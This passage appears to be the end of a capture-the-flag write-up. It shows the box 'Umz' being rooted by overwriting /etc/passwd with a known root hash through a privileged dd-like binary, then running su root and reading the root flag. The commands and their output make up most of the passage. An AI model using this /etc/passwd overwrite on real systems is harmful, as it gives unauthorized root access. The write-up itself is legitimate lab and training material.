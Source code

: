 
4. **Step 4: Generate a strong root password hash and overwrite `/etc/passwd` again.**
A new password hash for `root` was generated (e.g., using `openssl passwd -6` or `mkpasswd`). The provided input shows the hash `root:$6$IdG5rFYHjLllaUrd$hckbjvcTp7cwp6mlGnGvn6Cdu8MkxQCl.aBYuCA8CQBjCkqx2X1DeF3s5fbTpkhqCTeo9FIO8KwrkG0tktkLL1:0:0:root:/root:/bin/bash`. This hash corresponds to the password `MySecurePass123`.

```shellscript
umzyyds@Umz:~$ echo 'root:$6$IdG5rFYHjLllaUrd$hckbjvcTp7cwp6mlGnGvn6Cdu8MkxQCl.aBYuCA8CQBjCkqx2X1DeF3s5fbTpkhqCTeo9FIO8KwrkG0tktkLL1:0:0:root:/root:/bin/bash' > passwd
umzyyds@Umz:~$ ./Dashazi if=passwd of=/etc/passwd
0+1 records in
0+1 records out
137 bytes copied, 0.000720738 s, 190 kB/s
```


5. **Step 5: Gain root access and retrieve `root.txt`.**
With the `/etc/passwd` file updated with a known password hash for root, `su root` was successful.

```shellscript
umzyyds@Umz:~$ su root
Password:
root@Umz:/home/umzyyds# id
uid=0(root) gid=0(root) groups=0(root)
```

Finally, the `root.txt` flag was retrieved from the `/root` directory.

```shellscript
root@Umz:/home/umzyyds# cd /root
root@Umz:~# ls
flask_debug.py  monitor.sh  root.txt
root@Umz:~# cat root.txt
flag{root-a73c45107081c08dd4560206b8ef8205}
```







This concludes the machine compromise.
